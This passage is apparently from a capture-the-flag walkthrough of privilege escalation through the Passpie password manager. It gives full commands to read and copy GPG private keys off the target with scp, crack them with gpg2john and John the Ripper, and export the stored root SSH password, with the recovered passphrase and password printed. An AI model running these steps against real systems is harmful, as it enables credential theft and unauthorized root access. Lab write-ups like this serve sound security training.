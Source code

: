 ### Configuration Analysis

```bash
ls -la ~/.passpie
cat ~/.passpie/.keys
```

Presence of private and public GPG keys protected by a passphrase.


## 🔓 Phase 8 — Privilege Escalation via Passpie

### GPG Key Extraction and Cracking

**Transferring keys to local machine:**

```bash
scp jnelson@10.10.11.186:/home/jnelson/.passpie/.keys ./keys
```

**Hash extraction with gpg2john:**

```bash
gpg2john keys > keys.hash
```

**Cracking with John the Ripper:**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt keys.hash --format=gpg
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-key mr-2 text-green-500"></i>
        Passphrase found: blink182
    </p>
</div>

### Passpie Password Export

```bash
passpie export ~/password.db
# Passphrase: blink182

cat ~/password.db
```

**Result:**

```
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: \!\!python/unicode 'p7qfAZt4_A1xo_0x'
```
